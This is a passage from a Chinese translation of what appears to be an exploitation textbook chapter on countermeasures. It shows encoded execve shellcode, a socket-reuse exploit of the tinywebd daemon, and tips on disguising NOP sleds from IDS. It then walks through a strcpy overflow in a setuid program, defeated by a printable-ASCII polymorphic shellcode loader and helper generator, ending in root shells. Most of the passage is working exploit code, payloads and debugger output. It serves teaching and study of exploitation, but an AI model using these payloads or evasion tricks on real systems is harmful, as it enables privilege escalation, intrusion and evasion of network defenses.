   push 0x736e6734   ; push "/bin" encoded +5 to the stack.
   mov ebx, esp      ; Put the address of encoded "/bin/sh" into ebx.

int3 ; Breakpoint before decoding (REMOVE WHEN NOT DEBUGGING)

   push BYTE 0x8     ; Need to decode 8 bytes
   pop edx
decode_loop:
   sub BYTE [ebx+edx], 0x5
   dec edx
   jns decode_loop

int3  ; Breakpoint after decoding (REMOVE WHEN NOT DEBUGGING)

   xor edx, edx
   push edx          ; push 32-bit null terminator to stack.
   mov edx, esp      ; This is an empty array for envp.
   push ebx          ; push string addr to stack above null terminator.
   mov ecx, esp      ; This is the argv array with string ptr.
   int 0x80          ; execve("/bin//sh", ["/bin//sh", NULL], [NULL])
```

解码循环使用 EDX 寄存器作为计数器。它从 8 开始计数到 0，因为需要解码 8 个字节。在这种情况下，确切的堆栈地址并不重要，因为重要的部分都是相对地址的，所以下面的输出没有麻烦地附加到现有的 tinywebd 进程。

```
reader@hacking:~/booksrc $ gcc -g tinywebd.c
reader@hacking:~/booksrc $ sudo gdb -q ./a.out

warning: not using untrusted file "/home/reader/.gdbinit"
Using host libthread_db library "/lib/tls/i686/cmov/libthread_db.so.1".
(gdb) set disassembly-flavor intel
(gdb) set follow-fork-mode child
(gdb) run
Starting program: /home/reader/booksrc/a.out
Starting tiny web daemon..
```

由于断点实际上是 shellcode 的一部分，因此不需要从 GDB 设置一个。从另一个终端，shellcode 被汇编并使用 socket 重用漏洞工具。

### 从另一个终端

```
reader@hacking:~/booksrc $ nasm encoded_sockreuserestore_dbg.s
reader@hacking:~/booksrc $ ./xtool_tinywebd_reuse.sh encoded_socketreuserestore_dbg
 127.0.0.1
target IP: 127.0.0.1
shellcode: encoded_sockreuserestore_dbg (72 bytes)
fake request: "GET / HTTP/1.1\x00" (15 bytes)
[Fake Request 15] [spoof IP 16] [NOP 313] [shellcode 72] [ret addr 128] [*fake_addr 8]
localhost [127.0.0.1] 80 (www) open
```

回到 GDB 窗口，shellcode 中的第一个`int3`指令被触发。从这里，我们可以验证字符串是否正确解码。

```
Program received signal SIGTRAP, Trace/breakpoint trap.
[Switching to process 12400]
0xbffff6ab in ?? ()
(gdb) x/10i $eip
0xbffff6ab:     push   0x8
0xbffff6ad:     pop    edx
0xbffff6ae:     sub    BYTE PTR [ebx+edx],0x5
0xbffff6b2:     dec    edx
0xbffff6b3:     jns    0xbffff6ae
0xbffff6b5     int3
0xbffff6b6:     xor    edx,edx
0xbffff6b8:     push   edx
0xbffff6b9:     mov    edx,esp
0xbffff6bb:     push   ebx
(gdb) x/8c $ebx
0xbffff738:     52 '4'  103 'g' 110 'n' 115 's' 52 '4'  120 'x' 109 'm' 5 '\005'
(gdb) cont
Continuing.
[tcsetpgrp failed in terminal_inferior: Operation not permitted]

Program received signal SIGTRAP, Trace/breakpoint trap.
0xbffff6b6 in ?? ()
(gdb) x/8c $ebx
0xbffff738:     47 '/'  98 'b'  105 'i' 110 'n' 47 '/'  115 's' 104 'h' 0 '\0'
(gdb) x/s $ebx
0xbffff738:      "/bin/sh"
(gdb)
```

现在解码已经验证，可以从 shellcode 中移除`int3`指令。以下输出显示了最终使用的 shellcode。

```
reader@hacking:~/booksrc $ sed -e 's/int3/;int3/g' encoded_sockreuserestore_dbg.s >
encoded_sockreuserestore.s
reader@hacking:~/booksrc $ diff encoded_sockreuserestore_dbg.s encoded_sockreuserestore.s
 33c33
< int3  ; Breakpoint before decoding  (REMOVE WHEN NOT DEBUGGING)
> ;int3  ; Breakpoint before decoding  (REMOVE WHEN NOT DEBUGGING)
42c42
< int3  ; Breakpoint after decoding  (REMOVE WHEN NOT DEBUGGING)
> ;int3  ; Breakpoint after decoding  (REMOVE WHEN NOT DEBUGGING)
reader@hacking:~/booksrc $ nasm encoded_sockreuserestore.s
reader@hacking:~/booksrc $ hexdump -C encoded_sockreuserestore
00000000  6a 02 58 cd 80 85 c0 74  0a 8d 6c 24 68 68 b7 8f  |j.X....t..l$hh..|
00000010  04 08 c3 8d 54 24 5c 8b  1a 6a 02 59 31 c0 b0 3f  |....T$\..j.Y1..?|
00000020  cd 80 49 79 f9 b0 0b 68  34 78 6d 05 68 34 67 6e  |..Iy...h4xm.h4gn|
00000030  73 89 e3 6a 08 5a 80 2c  13 05 4a 79 f9 31 d2 52  |s..j.Z.,..Jy.1.R|
00000040  89 e2 53 89 e1 cd 80                              |..S....|
00000047
reader@hacking:~/booksrc $ ./tinywebd
Starting tiny web daemon..
reader@hacking:~/booksrc $ ./xtool_tinywebd_reuse.sh encoded_sockreuserestore 127.0.0.1
target IP: 127.0.0.1
shellcode: encoded_sockreuserestore (71 bytes)
fake request: "GET / HTTP/1.1\x00" (15 bytes)
[Fake Request 15] [spoof IP 16] [NOP 314] [shellcode 71] [ret addr 128] [*fake_addr 8]
localhost [127.0.0.1] 80 (www) open
whoami
root
```

## 如何隐藏雪橇

NOP sled 是另一种网络 IDS 和 IPS 容易检测到的签名。大块的`0x90`并不常见，所以如果网络安全机制看到这样的东西，它很可能是漏洞。为了避免这种签名，我们可以使用不同的单字节指令而不是 NOP。有几个单字节指令——为各种寄存器提供增量或减量指令——也是可打印的 ASCII 字符。

| 指令 | 十六进制 | ASCII |
| --- | --- | --- |
| inc eax | `0x40` | @ |
| inc ebx | `0x43` | C |
| inc ecx | `0x41` | A |
| inc ecx | `0x42` | B |
| dec eax | `0x48` | H |
| dec ebx | `0x4B` | K |
| dec ecx | `0x49` | I |
| dec edx | `0x4A` | J |

由于我们在使用这些寄存器之前将它们清零，我们可以安全地使用这些字节的随机组合来作为 NOP sled。创建一个新的利用工具，该工具使用字节的随机组合`@, C, A, B, H, K, I`和`J`而不是常规的 NOP sled，将留给读者作为练习。最简单的方法是编写一个 C 语言编写的 sled 生成程序，该程序与 BASH 脚本一起使用。这种修改将隐藏利用缓冲区，防止 IDS 寻找 NOP sled。

# 缓冲区限制

有时程序会对缓冲区施加某些限制。这种数据完整性检查可以防止许多漏洞。考虑以下示例程序，它用于更新虚构数据库中的产品描述。第一个参数是产品代码，第二个参数是更新后的描述。这个程序实际上并没有更新数据库，但它确实存在一个明显的漏洞。

## 缓冲区限制

### update_info.c

```
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

#define MAX_ID_LEN 40
#define MAX_DESC_LEN 500

/* Barf a message and exit. */
void barf(char *message, void *extra) {
   printf(message, extra);
   exit(1);
}

/* Pretend this function updates a product description in a database. */
void update_product_description(char *id, char *desc)
{
   char product_code[5], description[MAX_DESC_LEN];

   printf("[DEBUG]: description is at %p\n", description);

   strncpy(description, desc, MAX_DESC_LEN);
   strcpy(product_code, id);

   printf("Updating product #%s with description \'%s\'\n", product_code, desc);
   // Update database
}

int main(int argc, char *argv[], char *envp[])
{
  int i;
  char *id, *desc;

  if(argc < 2)
     barf("Usage: %s <id> <description>\n", argv[0]);
  id = argv[1];   // id - Product code to update in DB 
  desc = argv[2]; // desc - Item description to update

  if(strlen(id) > MAX_ID_LEN) // id must be less than MAX_ID_LEN bytes.
     barf("Fatal: id argument must be less than %u bytes\n", (void *)MAX_ID_LEN);

  for(i=0; i < strlen(desc)-1; i++) { // Only allow printable bytes in desc.
     if(!(isprint(desc[i])))
        barf("Fatal: description argument can only contain printable bytes\n", NULL);
  }

  // Clearing out the stack memory (security)
  // Clearing all arguments except the first and second
  memset(argv[0], 0, strlen(argv[0]));
  for(i=3; argv[i] != 0; i++)
    memset(argv[i], 0, strlen(argv[i]));
  // Clearing all environment variables
  for(i=0; envp[i] != 0; i++)
    memset(envp[i], 0, strlen(envp[i]));

  printf("[DEBUG]: desc is at %p\n", desc);

  update_product_description(id, desc); // Update database.
}
```

尽管存在漏洞，代码确实尝试进行安全检查。产品 ID 参数的长度受到限制，描述参数的内容仅限于可打印字符。此外，出于安全原因，未使用的环境变量和程序参数被清除。第一个参数（`id`）对于 Shellcode 来说太小了，而且由于栈内存的其他部分被清除，只剩下了一个地方。

```
reader@hacking:~/booksrc $ gcc -o update_info update_info.c
reader@hacking:~/booksrc $ sudo chown root ./update_info
reader@hacking:~/booksrc $ sudo chmod u+s ./update_info
reader@hacking:~/booksrc $ ./update_info
Usage: ./update_info <id> <description>
reader@hacking:~/booksrc $ ./update_info OCP209 "Enforcement Droid"
[DEBUG]: description is at 0xbffff650
Updating product #OCP209 with description 'Enforcement Droid'
reader@hacking:~/booksrc $
reader@hacking:~/booksrc $ ./update_info $(perl -e 'print "AAAA"x10') blah
[DEBUG]: description is at 0xbffff650
Segmentation fault
reader@hacking:~/booksrc $ ./update_info $(perl -e 'print "\xf2\xf9\xff\xbf"x10') $(cat ./
shellcode.bin)
Fatal: description argument can only contain printable bytes
reader@hacking:~/booksrc $
```

此输出显示了示例用法，然后尝试利用有漏洞的`strcpy()`调用。尽管可以通过第一个参数（`id`）覆盖返回地址，但我们唯一可以放置 Shellcode 的地方是在第二个参数（`desc`）中。然而，这个缓冲区会检查非可打印字节。下面的调试输出确认，如果有一种方法可以将 Shellcode 放入描述参数中，则此程序可以被利用。

```
reader@hacking:~/booksrc $ gdb -q ./update_info
Using host libthread_db library "/lib/tls/i686/cmov/libthread_db.so.1"
(gdb) run $(perl -e 'print "\xcb\xf9\xff\xbf"x10') blah
The program being debugged has been started already
Start it from the beginning? (y or n) y

Starting program: /home/reader/booksrc/update_info $(perl -e 'print "\xcb\xf9\xff\
xbf"x10')
blah
[DEBUG]: desc is at 0xbffff9cb
Updating product # with description 'blah'

Program received signal SIGSEGV, Segmentation fault.
0xbffff9cb in ?? ()
(gdb) i r eip
eip            0xbffff9cb       0xbffff9cb
(gdb) x/s $eip
0xbffff9cb:      "blah"
(gdb)
```

可打印输入验证是阻止利用的唯一因素。就像机场安检一样，这个输入验证循环检查所有进入的内容。虽然无法避免这个检查，但有一些方法可以绕过守卫将非法数据偷偷运过。

## 多态可打印 ASCII Shellcode

多态 Shellcode 指的是任何会改变自身的 Shellcode。上一节中的编码 Shellcode 在技术上属于多态，因为它在运行时修改了所使用的字符串。新的 NOP sled 使用可以组装成可打印 ASCII 字节的指令。还有其他指令也属于这个可打印范围（从`0x33`到`0x7e`）；然而，实际上这个集合相当小。

目标是编写能够绕过可打印字符检查的 Shellcode。尝试用如此有限的指令集编写复杂的 Shellcode 将是自虐的，因此，可打印 Shellcode 将使用简单的方法在栈上构建更复杂的 Shellcode。这样，可打印 Shellcode 实际上将成为生成真实 Shellcode 的指令。

第一步是找出一种方法来清零寄存器。不幸的是，各种寄存器上的 XOR 指令无法组装成可打印的 ASCII 字符范围。一个选项是使用 AND 位操作，当使用 EAX 寄存器时，它会组装成百分号字符（%）。`and eax, 0x41414141`的汇编指令将组装成可打印的机器代码`%AAAA`，因为十六进制的`0x41`是可打印字符*A*。

AND 操作按以下方式转换位：

```
1 and 1 = 1
0 and 0 = 0
1 and 0 = 0
0 and 1 = 0
```

由于结果为 1 的唯一情况是两个位都是 1，如果将两个相反的值 AND 到 EAX 上，EAX 将变为零。

```
    `Binary                                Hexadecimal`
    1000101010011100100111101001010       0x454e4f4a
AND 0111010001100010011000000110101   AND 0x3a313035
------------------------------------  --------------- 
    0000000000000000000000000000000       0x00000000
```

因此，通过使用两个彼此位逆的 32 位可打印值，可以在不使用任何空字节的情况下清零 EAX 寄存器，并且生成的汇编机器代码将是可打印的文本。

```
and eax, 0x454e4f4a  ; Assembles into %JONE
and eax, 0x3a313035  ; Assembles into %501:
```

因此，机器代码中的`%JONE%501:`将清零 EAX 寄存器。有趣。下面框中显示了其他一些可以组装成可打印 ASCII 字符的指令。

```
sub eax, 0x41414141    -AAAA
push eax               P
pop eax                X
push esp               T
pop esp                \
```

令人惊讶的是，这些说明与`AND eax`指令结合，足以构建将 shellcode 注入堆栈并执行它的加载器代码。一般技术是，首先将 ESP 设置在执行中的加载器代码之后（在较高的内存地址），然后从后向前构建 shellcode，通过将值推入堆栈来实现，如下所示。

由于堆栈向上增长（从较高内存地址到较低内存地址），当值推入堆栈时，ESP 会向后移动，而 EIP 会在加载器代码执行时向前移动。最终，EIP 和 ESP 会相遇，EIP 将继续执行新构建的 shellcode。



图 0x600-1。

首先，ESP 必须设置在可打印的加载器 shellcode 之后。使用 GDB 进行一点调试显示，在获得程序执行控制权后，ESP 在溢出缓冲区开始之前 555 字节（该缓冲区将包含加载器代码）。ESP 寄存器必须移动，使其在加载器代码之后，同时还要留出为新 shellcode 和加载器 shellcode 本身留出空间。大约 300 字节应该足够了，所以让我们给 ESP 加上 860 字节，使其在加载器代码开始之后 305 字节。这个值不需要非常精确，因为稍后会做出一些调整。由于唯一可用的指令是减法，可以通过从寄存器中减去足够的值来模拟加法，这样寄存器就会回绕。寄存器只有 32 位空间，所以给寄存器加 860 相当于从 2³²，即 4,294,966,436 中减去 860。然而，这个减法必须只使用可打印的值，所以我们将其分成三个指令，所有这些指令都使用可打印的操作数。

```
sub eax, 0x39393333  ; Assembles into -3399
sub eax, 0x72727550  ; Assembles into -Purr
sub eax, 0x54545421  ; Assembles into -!TTT
```

如 GDB 输出所确认的，从 32 位数字中减去这三个值等同于向其添加 860。

```
reader@hacking:~/booksrc $ gdb -q
(gdb) print  0 - 0x39393333 - 0x72727550 - 0x54545421
$1 = 860
(gdb)
```

目标是从 ESP 而不是 EAX 中减去这些值，但`sub esp`指令无法汇编成可打印的 ASCII 字符。因此，必须将 ESP 的当前值移动到 EAX 进行减法，然后将新的 EAX 值移动回 ESP。

然而，由于`mov esp, eax`和`mov eax, esp`这两条指令都无法汇编成可打印的 ASCII 字符，因此这个交换必须使用堆栈来完成。通过将源寄存器的值推送到堆栈，然后再从目标寄存器中弹出，可以使用`push source`和`pop dest`指令完成相当于`mov dest, source`的指令。幸运的是，EAX 和 ESP 寄存器的`pop`和`push`指令可以汇编成可打印的 ASCII 字符，因此所有这些都可以使用可打印的 ASCII 来完成。

这里是添加 860 到 ESP 的最终指令集。

```
push esp             ; Assembles into T
pop eax              ; Assembles into X

sub eax, 0x39393333  ; Assembles into -3399
sub eax, 0x72727550  ; Assembles into -Purr
sub eax, 0x54545421  ; Assembles into -!TTT

push eax             ; Assembles into P
pop esp              ; Assembles into \
```

这意味着`TX-3399-Purr-!TTT-P\`将在机器码中将 ESP 增加 860。到目前为止，一切顺利。现在必须构建 shellcode。

首先，必须将 EAX 清零；现在发现了一种方法。然后，通过使用更多的`sub`指令，必须将 EAX 寄存器设置为 shellcode 的最后四个字节，顺序相反。由于堆栈通常向上增长（向较低的内存地址），并且按照 FILO 顺序构建，因此推送到堆栈的第一个值必须是 shellcode 的最后四个字节。这些字节必须顺序相反，因为是小端字节序。以下输出显示了在前面章节中使用的标准 shellcode 的十六进制转储，这将由可打印加载器代码构建。

```
reader@hacking:~/booksrc $ hexdump -C ./shellcode.bin
00000000  31 c0 31 db 31 c9 99 b0  a4 cd 80 6a 0b 58 51 68  |1.1.1......j.XQh|
00000010  2f 2f 73 68 68 2f 62 69  6e 89 e3  *`51 89 e2 53`* `89`  |//shh/bin..Q..S.|
00000020  `e1 cd 80`                                          |...|
```

在这种情况下，最后四个字节用粗体表示；EAX 寄存器的正确值是`0x80cde189`。通过使用`sub`指令来环绕值，这很容易做到。然后，可以将 EAX 推送到堆栈。这会使 ESP 向上移动（向较低的内存地址），到达新推入值的末尾，为 shellcode 的下一个四个字节做好准备（在前面 shellcode 中用斜体表示）。使用更多的`sub`指令将 EAX 环绕到`0x53e28951`，然后将这个值推送到堆栈。随着这个过程对每个四个字节的块重复进行，shellcode 从后向前构建，向执行加载器代码。

```
00000000  *`31 c0 31`* `db 31 c9 99` b0  a4 cd 80 6a 0b 58 51 68  |1.1.1......j.XQh|
00000010  2f 2f 73 68 68 2f 62 69  6e 89 e3 *`51 89 e2 53`* `89`  |//shh/bin..Q..S.|
00000020  `e1 cd 80`                                          |...|
```

最终，到达了 shellcode 的开始部分，但在将`0x99c931db`推送到堆栈后，只剩下三个字节（在前面 shellcode 中用斜体表示）。通过在代码的开始插入一个单字节 NOP 指令，可以缓解这种情况，结果将`0x31c03190`值推送到堆栈——`0x90`是 NOP 指令的机器码。

原始 shellcode 的每个四个字节的块都是使用之前提到的可打印减法方法生成的。以下源代码是一个帮助计算必要可打印值的程序。

### printable_helper.c

```
#include <stdio.h>
#include <sys/stat.h>
#include <ctype.h>
#include <time.h>
#include <stdlib.h>
#include <string.h>

#define CHR "%_01234567890abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ-"

int main(int argc, char* argv[])
{
   unsigned int targ, last, t[4], l[4];
   unsigned int try, single, carry=0;
   int len, a, i, j, k, m, z, flag=0;
   char word[3][4];
   unsigned char mem[70];

   if(argc < 2) {
      printf("Usage: %s <EAX starting value> <EAX end value>\n", argv[0]);
      exit(1);
   }

   srand(time(NULL));
   bzero(mem, 70);
   strcpy(mem, CHR);
   len = strlen(mem);
   strfry(mem); // Randomize
   last = strtoul(argv[1], NULL, 0);
   targ = strtoul(argv[2], NULL, 0);

   printf("calculating printable values to subtract from EAX..\n\n");
   t[3] = (targ & 0xff000000)>>24; // Splitting by bytes
   t[2] = (targ & 0x00ff0000)>>16;
   t[1] = (targ & 0x0000ff00)>>8;
   t[0] = (targ & 0x000000ff);
   l[3] = (last & 0xff000000)>>24;
   l[2] = (last & 0x00ff0000)>>16;
   l[1] = (last & 0x0000ff00)>>8;
   l[0] = (last & 0x000000ff);

   for(a=1; a < 5; a++) { // Value count
      carry = flag = 0;
      for(z=0; z < 4; z++) { // Byte count
         for(i=0; i < len; i++) {
            for(j=0; j < len; j++) {
               for(k=0; k < len; k++) {
                  for(m=0; m < len; m++)
                  {
                     if(a < 2) j = len+1;
                     if(a < 3) k = len+1;
                     if(a < 4) m = len+1;
                     try = t[z] + carry+mem[i]+mem[j]+mem[k]+mem[m];
                     single = (try & 0x000000ff);
                     if(single == l[z])
                     {
                        carry = (try & 0x0000ff00)>>8;
                        if(i < len) word[0][z] = mem[i];
                        if(j < len) word[1][z] = mem[j];
                        if(k < len) word[2][z] = mem[k];
                        if(m < len) word[3][z] = mem[m];
                        i = j = k = m = len+2;
                        flag++;
                     }
                  }
               }
            }
         }
      }
      if(flag == 4) { // If all 4 bytes found
         printf("start: 0x%08x\n\n", last);
         for(i=0; i < a; i++)
            printf("     - 0x%08x\n", *((unsigned int *)word[i]));
         printf("-------------------\n");
         printf("end:   0x%08x\n", targ);

         exit(0);
      }
   }
```

当这个程序运行时，它期望两个参数——EAX 的起始值和结束值。对于可打印的加载器 shellcode，EAX 以零开始，结束值应该是`0x80cde189`。这个值对应于 shellcode.bin 的最后四个字节。

```
reader@hacking:~/booksrc $ gcc -o printable_helper printable_helper.c
reader@hacking:~/booksrc $ ./printable_helper 0 0x80cde189
calculating printable values to subtract from EAX..

start: 0x00000000

     - 0x346d6d25
     - 0x256d6d25
     - 0x2557442d
-------------------
end:   0x80cde189
reader@hacking:~/booksrc $ hexdump -C ./shellcode.bin 
00000000  31 c0 31 db 31 c9 99 b0  a4 cd 80 6a 0b 58 51 68  |1.1.1......j.XQh|
00000010  2f 2f 73 68 68 2f 62 69  6e 89 e3 51 89 e2 53 `89`  |//shh/bin..Q..S.|
00000020  `e1 cd 80`                                          |...|
00000023
reader@hacking:~/booksrc $ ./printable_helper 0x80cde189 0x53e28951
calculating printable values to subtract from EAX..

start: 0x80cde189

     - 0x59316659
     - 0x59667766
     - 0x7a537a79
-------------------
end:   0x53e28951 
reader@hacking:~/booksrc $
```

上面的输出显示了所需的可打印值，以将清零的 EAX 寄存器绕回`0x80cde189`（以粗体显示）。接下来，EAX 应该再次绕回`0x53e28951`，以构建 shellcode 的下一个四个字节（反向构建）。这个过程重复进行，直到构建完所有的 shellcode。整个过程的代码如下所示。

### printable.s

```
BITS 32
push esp                ; Put current ESP
pop eax                 ;   into EAX.
sub eax,0x39393333      ; Subtract printable values
sub eax,0x72727550      ;   to add 860 to EAX.
sub eax,0x54545421
push eax                ; Put EAX back into ESP.
pop esp                 ;   Effectively ESP = ESP + 860
and eax,0x454e4f4a
and eax,0x3a313035      ; Zero out EAX.

sub eax,0x346d6d25      ; Subtract printable values 
sub eax,0x256d6d25      ;   to make EAX = 0x80cde189.
sub eax,0x2557442d      ;   (last 4 bytes from shellcode.bin)
push eax                ; Push these bytes to stack at ESP.
sub eax,0x59316659      ; Subtract more printable values
sub eax,0x59667766      ;  to make EAX = 0x53e28951.
sub eax,0x7a537a79      ;  (next 4 bytes of shellcode from the end)

push eax
sub eax,0x25696969
sub eax,0x25786b5a
sub eax,0x25774625
push eax                ; EAX = 0xe3896e69
sub eax,0x366e5858
sub eax,0x25773939
sub eax,0x25747470
push eax                ; EAX = 0x622f6868
sub eax,0x25257725
sub eax,0x71717171
sub eax,0x5869506a
push eax                ; EAX = 0x732f2f68
sub eax,0x63636363
sub eax,0x44307744
sub eax,0x7a434957
push eax                ; EAX = 0x51580b6a
sub eax,0x63363663
sub eax,0x6d543057
push eax                ; EAX = 0x80cda4b0
sub eax,0x54545454
sub eax,0x304e4e25
sub eax,0x32346f25
sub eax,0x302d6137
push eax                ; EAX = 0x99c931db
sub eax,0x78474778
sub eax,0x78727272
sub eax,0x774f4661
push eax                ; EAX = 0x31c03190
sub eax,0x41704170
sub eax,0x2d772d4e
sub eax,0x32483242
push eax                ; EAX = 0x90909090
push eax
push eax                ; Build a NOP sled.
push eax
push eax
push eax
push eax
push eax
push eax
push eax
push eax
push eax
push eax
push eax
push eax
push eax
push eax
push eax
push eax
push eax

```

最后，shellcode 在加载器代码之后某处构建，很可能是留下一个新构建的 shellcode 和正在执行的加载器代码之间的间隙。这个间隙可以通过在加载器代码和 shellcode 之间构建一个 NOP sled 来架起。

再次使用`sub`指令将 EAX 设置为`0x90909090`，并且 EAX 被反复压入栈中。每次`push`指令，都会在 shellcode 的开始处附加四个 NOP 指令。最终，这些 NOP 指令将直接覆盖加载器代码的执行`push`指令，允许 EIP 和程序执行流过 sled 进入 shellcode。

这将汇编成一个可打印的 ASCII 字符串，它同时充当可执行机器代码。

```
reader@hacking:~/booksrc $ nasm printable.s
reader@hacking:~/booksrc $ echo $(cat ./printable)
TX-3399-Purr-!TTTP\%JONE%501:-%mm4-%mm%--DW%P-Yf1Y-fwfY-yzSzP-iii%-Zkx%-%Fw%P-XXn6-99w%
-ptt%P-
%w%%-qqqq-jPiXP-cccc-Dw0D-WICzP-c66c-W0TmP-TTTT-%NN0-%o42-7a-0P-xGGx-rrrx-aFOwP-pApA-N-w--
B2H2PPPPPPPPPPPPPPPPPPPPPP
reader@hacking:~/booksrc $
```

这个可打印的 ASCII shellcode 现在可以用来绕过 update_info 程序的输入验证例程，将实际的 shellcode 偷偷带过去。

```
reader@hacking:~/booksrc $ ./update_info $(perl -e 'print "AAAA"x10') $(cat ./printable)
[DEBUG]: desc argument is at 0xbffff910
Segmentation fault
reader@hacking:~/booksrc $ ./update_info $(perl -e 'print "\x10\xf9\xff\xbf"x10') $(cat ./
printable)
[DEBUG]: desc argument is at 0xbffff910
Updating product ########### with description 'TX-3399-Purr-!TTTP\%JONE%501:-%mm4-%mm%
--DW%P-
Yf1Y-fwfY-yzSzP-iii%-Zkx%-%Fw%P-XXn6-99w%-ptt%P-%w%%-qqqq-jPiXP-cccc-Dw0D-WICzP-c66c
-W0TmP-
TTTT-%NN0-%o42-7a-0P-xGGx-rrrx-aFOwP-pApA-N-w--B2H2PPPPPPPPPPPPPPPPPPPPPP'
sh-3.2# whoami
root
sh-3.2#
```

真是 neat。如果你没有跟上刚才发生的一切，下面的输出显示了在 GDB 中观察可打印 shellcode 的执行情况。栈地址将略有不同，改变返回地址，但这不会影响可打印 shellcode——它根据 ESP 计算其位置，从而赋予它这种灵活性。

```
reader@hacking:~/booksrc $ gdb -q ./update_info
Using host libthread_db library "/lib/tls/i686/cmov/libthread_db.so.1".
(gdb) disass update_product_description
Dump of assembler code for function update_product_description:
0x080484a8 <update_product_description+0>:      push   ebp
0x080484a9 <update_product_description+1>:      mov    ebp,esp
0x080484ab <update_product_description+3>:      sub    esp,0x28
0x080484ae <update_product_description+6>:      mov    eax,DWORD PTR [ebp+8]
0x080484b1 <update_product_description+9>:      mov    DWORD PTR [esp+4],eax
0x080484b5 <update_product_description+13>:     lea    eax,[ebp-24]
0x080484b8 <update_product_description+16>:     mov    DWORD PTR [esp],eax
0x080484bb <update_product_description+19>:     call   0x8048388 <strcpy@plt>
0x080484c0 <update_product_description+24>:     mov    eax,DWORD PTR [ebp+12]
0x080484c3 <update_product_description+27>:     mov    DWORD PTR [esp+8],eax
0x080484c7 <update_product_description+31>:     lea    eax,[ebp-24]
0x080484ca <update_product_description+34>:     mov    DWORD PTR [esp+4],eax
0x080484ce <update_product_description+38>:     mov    DWORD PTR [esp],0x80487a0
0x080484d5 <update_product_description+45>:     call   0x8048398 <printf@plt>
0x080484da <update_product_description+50>:     leave
0x080484db <update_product_description+51>:     ret
End of assembler dump.
(gdb) break *0x080484db
Breakpoint 1 at 0x80484db: file update_info.c, line 21.
(gdb) run $(perl -e 'print "AAAA"x10') $(cat ./printable)
Starting program: /home/reader/booksrc/update_info $(perl -e 'print "AAAA"x10') $(cat ./
printable)
[DEBUG]: desc argument is at 0xbffff8fd

Program received signal SIGSEGV, Segmentation fault.
0xb7f06bfb in strlen () from /lib/tls/i686/cmov/libc.so.6
(gdb) run $(perl -e 'print "\xfd\xf8\xff\xbf"x10') $(cat ./printable)
The program being debugged has been started already.
Start it from the beginning? (y or n) y

Starting program: /home/reader/booksrc/update_info $(perl -e 'print "\xfd\xf8\xff\xbf"
x10')
$(cat ./printable)
[DEBUG]: desc argument is at 0xbffff8fd
Updating product # with description 'TX-3399-Purr-!TTTP\%JONE%501:-%mm4-%mm%--DW%P-Yf1Y
-fwfY-
yzSzP-iii%-Zkx%-%Fw%P-XXn6-99w%-ptt%P-%w%%-qqqq-jPiXP-cccc-Dw0D-WICzP-c66c-W0TmP-TTTT
-%NN0-
%o42-7a-0P-xGGx-rrrx-aFOwP-pApA-N-w--B2H2PPPPPPPPPPPPPPPPPPPPPP'

Breakpoint 1, 0x080484db in update_product_description (
    id=0x72727550 <Address 0x72727550 out of bounds>,
    desc=0x5454212d <Address 0x5454212d out of bounds>) at update_info.c:21
21      }
(gdb)  stepi
0xbffff8fd in ?? ()
(gdb) x/9i $eip
0xbffff8fd:     push   esp
0xbffff8fe:     pop    eax
0xbffff8ff:     sub    eax,0x39393333
0xbffff904:     sub    eax,0x72727550
0xbffff909:     sub    eax,0x54545421
0xbffff90e:     push   eax
0xbffff90f:     pop    esp
0xbffff910:     and    eax,0x454e4f4a
0xbffff915:     and    eax,0x3a313035
(gdb) i r esp
esp            0xbffff6d0       0xbffff6d0
(gdb) p /x $esp + 860
$1 = 0xbffffa2c
(gdb) stepi 9
0xbffff91a in ?? ()
(gdb) i r esp eax
esp            0xbffffa2c       0xbffffa2c
eax            0x0      0
(gdb)
```

前九条指令将 860 加到 ESP 上，并将 EAX 寄存器清零。接下来的八条指令将 shellcode 的最后八个字节以四个字节为单位压入栈中。这个过程在接下来的 32 条指令中重复，以在栈上构建整个 shellcode。

```
(gdb) x/8i $eip
0xbffff91a:     sub    eax,0x346d6d25
0xbffff91f:     sub    eax,0x256d6d25
0xbffff924:     sub    eax,0x2557442d
0xbffff929:     push   eax
0xbffff92a:     sub    eax,0x59316659
0xbffff92f:     sub    eax,0x59667766
0xbffff934:     sub    eax,0x7a537a79
0xbffff939:     push   eax
(gdb) stepi 8
0xbffff93a in ?? ()
(gdb) x/4x $esp
0xbffffa24:     0x53e28951      0x80cde189      0x00000000      0x00000000
(gdb) stepi 32
0xbffff9ba in ?? ()
(gdb) x/5i $eip
0xbffff9ba:     push   eax
0xbffff9bb:     push   eax
0xbffff9bc:     push   eax
0xbffff9bd:     push   eax
0xbffff9be:     push   eax
(gdb) x/16x $esp
0xbffffa04:     0x90909090      0x31c03190      0x99c931db      0x80cda4b0
0xbffffa14:     0x51580b6a      0x732f2f68      0x622f6868      0xe3896e69
0xbffffa24:     0x53e28951      0x80cde189      0x00000000      0x00000000
0xbffffa34:     0x00000000      0x00000000      0x00000000      0x00000000
(gdb)  i r eip esp eax
eip            0xbffff9ba       0xbffff9ba
esp            0xbffffa04       0xbffffa04
eax            0x90909090       -1869574000
(gdb)
```

现在 shellcode 已经完全构建在栈上，EAX 被设置为`0x90909090`。这个值被反复压入栈中以构建一个 NOP sled，以在加载器代码的末尾和新建的 shellcode 之间架起桥梁。

```
(gdb) x/24x 0xbffff9ba
0xbffff9ba:     0x50505050      0x50505050      0x50505050      0x50505050
0xbffff9ca:     0x50505050      0x00000050      0x00000000      0x00000000
0xbffff9da:     0x00000000      0x00000000      0x00000000      0x00000000
0xbffff9ea:     0x00000000      0x00000000      0x00000000      0x00000000
0xbffff9fa:     0x00000000      0x00000000      0x90900000      0x31909090
0xbffffa0a:     0x31db31c0      0xa4b099c9      0x0b6a80cd      0x2f685158
(gdb) stepi 10
0xbffff9c4 in ?? ()
(gdb) x/24x 0xbffff9ba
0xbffff9ba:     0x50505050      0x50505050      0x50505050      0x50505050
0xbffff9ca:     0x50505050      0x00000050      0x00000000      0x00000000
0xbffff9da:     0x90900000      0x90909090      0x90909090      0x90909090
0xbffff9ea:     0x90909090      0x90909090      0x90909090      0x90909090
0xbffff9fa:     0x90909090      0x90909090      0x90909090      0x31909090
0xbffffa0a:     0x31db31c0      0xa4b099c9      0x0b6a80cd      0x2f685158
(gdb) stepi 5
0xbffff9c9 in ?? ()
(gdb) x/24x 0xbffff9ba
0xbffff9ba:     0x50505050      0x50505050      0x50505050      0x90905050
0xbffff9ca:     0x90909090      0x90909090      0x90909090      0x90909090
0xbffff9da:     0x90909090      0x90909090      0x90909090      0x90909090
